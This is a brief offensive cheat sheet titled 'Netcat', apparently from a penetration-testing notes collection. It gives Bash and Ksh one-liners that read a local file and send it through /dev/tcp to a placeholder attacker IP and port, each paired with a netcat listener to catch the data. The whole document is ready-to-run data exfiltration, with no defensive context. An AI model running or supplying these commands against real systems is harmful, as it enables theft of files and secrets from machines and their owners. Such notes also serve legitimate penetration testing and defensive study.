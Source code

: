 # Netcat

## 01 - Bash

```
$ bash -c 'echo -e "POST / HTTP/0.9\n\n$(</path/to/file.txt)" > /dev/tcp/<attacker_IP>/<PORT>'

$ nc -lnvp <PORT>
```

## 02 - Ksh

```
$ ksh -c 'cat /path/to/file.txt > /dev/tcp/<attacker_IP>/<PORT>'

$ nc -lnvp <PORT>
```